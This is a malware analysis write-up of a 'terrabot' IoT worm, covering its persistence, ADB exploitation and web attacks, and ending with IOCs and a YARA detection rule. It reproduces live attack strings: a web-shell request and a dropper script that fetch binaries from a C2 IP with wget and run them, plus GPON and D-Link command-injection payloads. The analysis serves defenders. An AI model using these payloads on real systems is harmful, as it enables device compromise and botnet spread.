




# Discovery
Looking at network traffic, we get a request from `150.228.169.149:9171`:

```
GET /shell?cd+/tmp;rm+-rf+*;wget+ 140.233.190.47/jaws;chmod+777+jaws;sh+jaws;./jaws; HTTP/1.1
User-Agent: terrabot-owned-you
Host: 127.0.0.1:80
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/webp,*/*;q=0.8
Connection: keep-alive

HTTP/1.1 400 Bad Request
Server: nginx/1.24.0 (Ubuntu)
Date: Wed, 03 Jun 2026 14:06:21 GMT
Content-Type: text/html
Content-Length: 166
Connection: close

<html>
<head><title>400 Bad Request</title></head>
<body>
<center><h1>400 Bad Request</h1></center>
<hr><center>nginx/1.24.0 (Ubuntu)</center>
</body>
</html>
```

Visiting `140.233.190.47/jaws` gives:

```sh
#!/bin/sh

n="023782pler.x86 023782pler.x86_64 023782pler.mips 023782pler.arc 023782pler.i468 023782pler.i686 023782pler.mpsl 023782pler.arm 023782pler.arm5 023782pler.arm6 023782pler.arm7 023782pler.ppc 023782pler.spc 23782pler.m68k 023782pler.sh4"
http_server="140.233.190.47"

for a in $n
do
     cp /system/bin/sh .pler
     >.f
     busybox wget http://$http_server/terrabot/$a -O -> .f
     chmod 777 .f
     ./.f jaws
done

for a in $n
do
     rm $a
done
```

Multiple payloads here. They are all for different architectures. Let's take a look at the jaws payload. Specifically, x86_64

Opening it up in IDA, we see some strings, jumping to the XREF, and we can make sense of what the binary does.
# Analysis
## 1. Persistence

The worm adds itself to the crontab, to ensure that it is always restarted if killed.



It then kills all competitors.



## 2. ADB Attacks
The worm generates a random public IPv4 address that is not a reserved IP.
It then checks if each of these servers are up. If so, it attempts to make an ADB shell request.
It then exploits `CVE-2026-0073` to try and bypass authentication.


## Web Attacks
It now executes multiple web based attacks to exploit misconfigurations.
It first generates a random IP like before, and sends variations of the following attack:
```
"POST /GponForm/diag_Form?images/ HTTP/1.1\r\n"
                "User-Agent: terrabot-owned-you\r\n"
                "Accept: */*\r\n"
                "Accept-Encoding: gzip, deflate\r\n"
                "Content-Type: application/x-www-form-urlencoded\r\n"
                "\r\n"
                "XWebPageName=diag&diag_action=ping&wan_conlist=0&dest_host=`busybox+wget+http://140.233.190.47/gpon+-O+/"
                "tmp/ger;sh+/tmp/ger`&ipv=0"
```
to `?images` and `?style`.
Lastly, it attempts to exploit a basic web shell via:
```GET /shell?cd+/tmp;rm+-rf+*;wget+ 140.233.190.47/jaws;chmod+777+jaws;sh+jaws;./jaws;```

```GET /login.cgi?cli=aa%20aa%27;wget%20http://140.233.190.47/dlink%20-O%20-%3E%20/tmp/kh;sh%20/tmp/kh%27$```.



# Detection and Mitigation
Aside from obvious fixes, such as ensuring there are no unauthenticated web shells, what can we do to detect and mitigate this worm?
1. Block and flag `140.233.190.47` as a high-severity IOC.
2. Alert on User-Agent string `terrabot-owned-you` in web server and proxy logs
3. Detect mass ADB exposure by alerting on port `5555` being reachable externally
## Yara Rules
```yara
rule terrabot_dropper_jaws {
    meta:
        description  = "Detects terrabot jaws dropper script"
        author       = "Ali Raza"
        date         = "2026-06-03"
        hash         = "08c65eebf3c102885be33adb98df1c3b131c853227fdc98da8b5945901174c82"
        tlp          = "WHITE"

    strings:
        $c2_ip       = "140.233.190.47" ascii

        // Useragent for web attacks
        $ua          = "terrabot-owned-you" ascii

        // Architecture naming convention unique to this campaign
        $arch_prefix = "023782pler." ascii

        // Dropper behaviour patterns
        $tmp_exec    = "busybox wget http://" ascii
        $chmod       = "chmod 777 .f" ascii
        $hidden_bin  = ">.f" ascii

        // GPON exploit string
        $gpon        = "XWebPageName=diag&diag_action=ping" ascii

        // Web shell attack pattern
        $wshell      = "/shell?cd+/tmp;rm+-rf+" ascii

    condition:
        // A single string hit can generate false positives if someone copies samples into reports or blogs.
        ($ua and ($c2_ip or $arch_prefix))
        or ($arch_prefix and 1 of ($tmp_exec,$chmod,$hidden_bin))
        or ($c2_ip and 2 of ($tmp_exec, $chmod, $hidden_bin, $gpon, $wshell))
}
```

Get it yourself: bazaar(dot)abuse(dot)ch/sample/08c65eebf3c102885be33adb98df1c3b131c853227fdc98da8b5945901174c82/
